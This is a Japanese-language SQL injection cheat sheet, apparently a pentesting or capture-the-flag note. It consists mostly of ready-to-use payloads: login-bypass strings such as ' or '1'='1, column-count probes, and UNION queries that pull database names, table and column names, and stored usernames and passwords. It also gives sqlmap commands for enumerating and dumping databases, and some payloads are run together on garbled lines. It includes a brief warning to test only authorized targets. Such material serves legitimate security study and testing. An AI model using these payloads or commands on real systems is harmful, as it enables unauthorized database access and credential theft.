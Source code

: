 # Basic
- ## 有効性のチェック
  - ' or '1'='1';--を入力し、普通に入力した時との違いがあるかをBurpSuite等を使って確認する。
- ## テーブル数を特定する。
  - ' union select null;--
  - これでカラム数に関するエラーが出れば徐々に増やしていく。
  - aaa' union select null, null, null, null, null;--
```bash
' or 1=1 order by 10 #
```

- admin'or '1'='1
- 'or '1'='1
- 'or '1'='1 --
- "or "1"="1
- "or "1"="1"--"or "1"="1"/*"or "1"="1"#"or 1=1
- "or 1=1 --"or 1=1 -
"or 1=1--"or 1=1/*"or 1=1#"or 1=1-
") or "1"="1
") or "1"="1"--") or "1"="1"/*") or "1"="1"#") or ("1"="1") or ("1"="1"--
") or ("1"="1"/*") or ("1"="1"#) or '1`='1-
★1'or 1=1#

## Union Based SQLインジェクション
Union Based SQL Injectionとは、unionを使い行を挿入することで内部情報を抜き取る手法です。

' or 1=1  union select 1,2,3,user(),database(),version() ;#

' or 1=1  union select 1,2,3,group_concat(schema_name),5,6 from information_schema.schemata; #

' or 1=1  union select 1,2,3,group_concat(column_name),5,6 from information_schema.columns where table_name='Users'; #

' or 1=1  union select 1,2,group_concat(UserID),group_concat(Username),group_concat(Password),6 from Users; #

' or 1=1 union select 1,2,3,group_concat(table_name),5,6 from information_schema.tables where table_schema='users'; #
→ UserDetails
' or 1=1 union select 1,2,3,group_concat(column_name),5,6 from information_schema.columns where table_name='UserDetails'; #
→ id,firstname,lastname,username,password,reg_date
' or 1=1 union select 1,2,3,group_concat(username),group_concat(password),6 from users.UserDetails; #

# sqlmap
- SQLmapは、SQLインジェクションの検出や悪用に特化したツールです。以下はSQLmapの基本的な使用例です：

1. **目標のURLを特定する**: SQLmapを使用して検査する対象のウェブサイトやウェブアプリケーションのURLを特定します。

2. **検査の開始**: SQLmapを使用して、目標のURLに対してインジェクション攻撃を実行します。以下のようにコマンドを入力します：

   - sqlmap -u <target_URL>
   例: `sqlmap -u http://example.com/page.php?id=1`

3. **自動検出**: SQLmapは自動的にSQLインジェクションの脆弱性を検出しようとします。検出された場合、詳細な情報が表示されます。

4. **脆弱性の調査と悪用**: SQLmapは、検出した脆弱性を利用してデータベースから情報を抽出したり、悪用したりするためのさまざまなオプションを提供します。以下はその一例です：

   - データベースのバージョンを検出する: 
     ```
     sqlmap -u <target_URL> --dbs
     ```

   - 特定のデータベースのテーブルを列挙する: 
     ```
     sqlmap -u <target_URL> -D <database_name> --tables
     ```

   - 特定のテーブルからデータを取得する: 
     ```
     sqlmap -u <target_URL> -D <database_name> -T <table_name> --dump
     ```

これらはSQLmapの基本的な使用例です。ただし、SQLmapを使用する際には、標的となるウェブサイトやアプリケーションが合法的な検査であることを確認し、権限を持たないシステムに対して攻撃を行わないように注意する必要があります。

 参考サイト
https://shukapin.com/security/sqlmap

https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap
option
description
example
-u
URL
sqlmap -u http://10.10.10.1/
--batch
Non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers

--dbs
 Names of the available databases

--all
Retrieve everything
